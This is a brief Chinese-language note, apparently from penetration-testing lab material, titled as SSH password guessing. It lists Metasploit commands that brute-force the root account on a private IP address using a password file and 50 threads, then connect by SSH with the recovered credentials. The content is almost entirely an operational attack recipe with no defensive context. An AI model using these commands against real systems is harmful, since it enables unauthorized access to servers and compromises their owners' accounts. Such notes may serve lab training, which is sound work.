

# ssh服务口令猜测
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.80.134
set USERNAME root
set PASS_FILE /root/pass.txt
set THREADS 50
run
ssh 192.168.31.243
输入账号密码